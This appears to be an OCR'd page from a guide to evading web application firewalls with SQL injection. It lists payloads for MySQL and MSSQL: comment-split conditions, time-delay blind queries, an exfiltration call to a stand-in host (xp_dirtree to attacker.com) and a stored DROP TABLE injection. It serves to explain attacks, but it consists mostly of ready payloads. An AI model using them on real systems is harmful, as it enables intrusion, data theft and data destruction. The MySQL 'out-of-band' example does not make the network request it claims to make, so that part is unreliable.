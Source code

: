 | **Database** | **Loophole**               | **Example**                                  |  
|--------------|----------------------------|----------------------------------------------|  
| MySQL        | Conditional Comments        | `/*!12345 UNION */ SELECT ...`               |  
| MSSQL        | Extended Stored Procedures  | `xp_dirtree '//attacker.com/exfil'`          |  
| PostgreSQL   | Array Functions             | `array_to_string(ARRAY[1,2], ',')`           |  

---

### **3. Breaking WAF Signatures**  
Attackers fragment or delay payloads to evade WAF rules:  

#### **Comment and Whitespace Insertion**  
Splits keywords with `/**/` or spaces:  
```sql  
' OR/**/1=1--  
```  

#### **Time-Delay Attacks**  
Infers data via response timing without triggering errors:  
- **MySQL**:  
  ```sql  
  ' AND IF(1=1, BENCHMARK(5000000, SHA1('a')), 0)--  
  ```  
- **MSSQL**:  
  ```sql  
  '; WAITFOR DELAY '0:0:5'--  
  ```  

#### **Out-of-Band (OOB) Exfiltration**  
Triggers DNS/HTTP requests to external servers:  
- **MySQL**:  
  ```sql  
  UNION SELECT 'attacker.com', NULL INTO DUMPFILE '/var/www/html/exploit.txt'--  
  ```  
- **MSSQL**:  
  ```sql  
  xp_dirtree '//attacker.com/exfil'  
  ```  

---

### **4. Second-Order Injections**  
Malicious input is stored and later used in unsafe queries:  
- **Scenario**:  
  1. Attacker inputs `'; DROP TABLE users;--` into a profile field.  
  2. The application later executes:  
     ```sql  
     SELECT * FROM users WHERE name='$username'  
     ```  
     → The unsanitized input executes `DROP TABLE`.  

| **Attack Phase** | **Action**                                  |  
|-------------------|--------------------------------------------|  
| **Phase 1**       | Inject payload into a stored field (e.g., comment). |  
| **Phase 2**       | The payload is reused in a dynamic query.  |  

---